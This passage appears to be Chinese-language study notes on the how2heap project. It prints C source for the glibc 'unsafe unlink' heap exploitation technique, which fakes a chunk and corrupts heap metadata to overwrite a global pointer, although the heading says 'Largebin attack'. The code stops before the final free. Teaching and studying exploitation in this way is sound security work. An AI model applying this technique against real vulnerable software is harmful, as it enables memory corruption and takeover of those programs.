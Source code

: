 这里结合how to heap源代码分析

## Largebin attack 

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <assert.h>

uint64_t *chunk0_ptr;

int main()
{
	setbuf(stdout, NULL);
	printf("Welcome to unsafe unlink 2.0!\n");
	printf("Tested in Ubuntu 20.04 64bit.\n");
	printf("This technique can be used when you have a pointer at a known location to a region you can call unlink on.\n");
	printf("The most common scenario is a vulnerable buffer that can be overflown and has a global pointer.\n");

	int malloc_size = 0x420; //we want to be big enough not to use tcache or fastbin
	int header_size = 2;

	printf("The point of this exercise is to use free to corrupt the global chunk0_ptr to achieve arbitrary memory write.\n\n");

	chunk0_ptr = (uint64_t*) malloc(malloc_size); //chunk0
	uint64_t *chunk1_ptr  = (uint64_t*) malloc(malloc_size); //chunk1
	printf("The global chunk0_ptr is at %p, pointing to %p\n", &chunk0_ptr, chunk0_ptr);
	printf("The victim chunk we are going to corrupt is at %p\n\n", chunk1_ptr);

	printf("We create a fake chunk inside chunk0.\n");
	printf("We setup the size of our fake chunk so that we can bypass the check introduced in https://sourceware.org/git/?p=glibc.git;a=commitdiff;h=d6db68e66dff25d12c3bc5641b60cbd7fb6ab44f\n");
	chunk0_ptr[1] = chunk0_ptr[-1] - 0x10;
	printf("We setup the 'next_free_chunk' (fd) of our fake chunk to point near to &chunk0_ptr so that P->fd->bk = P.\n");
	chunk0_ptr[2] = (uint64_t) &chunk0_ptr-(sizeof(uint64_t)*3);
	printf("We setup the 'previous_free_chunk' (bk) of our fake chunk to point near to &chunk0_ptr so that P->bk->fd = P.\n");
	printf("With this setup we can pass this check: (P->fd->bk != P || P->bk->fd != P) == False\n");
	chunk0_ptr[3] = (uint64_t) &chunk0_ptr-(sizeof(uint64_t)*2);
	printf("Fake chunk fd: %p\n",(void*) chunk0_ptr[2]);
	printf("Fake chunk bk: %p\n\n",(void*) chunk0_ptr[3]);

	printf("We assume that we have an overflow in chunk0 so that we can freely change chunk1 metadata.\n");
	uint64_t *chunk1_hdr = chunk1_ptr - header_size;
	printf("We shrink the size of chunk0 (saved as 'previous_size' in chunk1) so that free will think that chunk0 starts where we placed our fake chunk.\n");
	printf("It's important that our fake chunk begins exactly where the known pointer points and that we shrink the chunk accordingly\n");
	chunk1_hdr[0] = malloc_size;
	printf("If we had 'normally' freed chunk0, chunk1.previous_size would have been 0x430, however this is its new value: %p\n",(void*)chunk1_hdr[0]);
	printf("We mark our fake chunk as free by setting 'previous_in_use' of chunk1 as False.\n\n");
	chunk1_hdr[1] &= ~1;

	printf("Now we free chunk1 so that consolidate backward will unlink our fake chunk, overwriting chunk0_ptr.\n");
```